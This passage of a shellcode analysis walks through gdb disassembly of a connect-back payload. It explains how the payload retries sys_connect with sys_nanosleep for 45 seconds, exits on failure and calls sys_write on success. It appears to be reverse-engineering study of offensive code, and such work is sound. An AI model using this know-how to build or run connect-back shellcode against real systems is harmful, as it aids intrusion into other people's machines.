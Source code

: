 ```bash
(gdb) x/10i $pc
# => 0x4000c2:    pop    rcx
#    0x4000c3:    pop    rcx
#    0x4000c4:    pop    rdi
#    0x4000c5:    test   rax,rax
#    0x4000c8:    jns    0x400091
#    0x4000ca:    push   0x3c
#    0x4000cc:    pop    rax
#    0x4000cd:    push   0x1
#    0x4000cf:    pop    rdi
#    0x4000d0:    syscall
```

As you may notice, the shellcode uses the `POP` instruction 3 times:

- 2 times in order to retrieve the value `0x0` and store it into `RCX`
- 1 time in order to retrieve the file descriptor of the socket, and store it into `RDI`

After that, it checks if the return value of `sys_nanosleep` is positive (non-signed), thus jumping back to `0x400091` in order to execute `sys_connect` once again.

If the syscall `sys_nanosleep` returns a signed value, then the shellcode goes to the address `0x4000ca` to invoke the syscall `sys_exit`.

These operations are performed 9 times, for a total of **45 seconds** in case it can't connect to the remote server.

You can test this by using the shell command `time`:

```bash
time ./shellcode

# real    45.01s
# user    0.00s
# sys     0.00s
# cpu     0%
```

Anyway, let's go back to the address `0x4000ab`. If the call to `connect` is successful, then the shellcode jumps to the address `0x4000d2`, which points to these instructions:

```bash
(gdb) x/3i $pc
# => 0x4000d2:    push   0x10
#    0x4000d4:    pop    rdx
#    0x4000d5:    call   0x4000ea

(gdb) x/5i 0x4000ea
  #  0x4000ea:    pop    rsi
  #  0x4000eb:    xor    rax,rax
  #  0x4000ee:    inc    rax
  #  0x4000f1:    syscall 
  #  0x4000f3:    jmp    0x4000ca
```

First, the register `RDX` is set to the value `0x10`, and after that the shellcode jumps straight to the address `0x4000ea`, which calls `sys_write`.
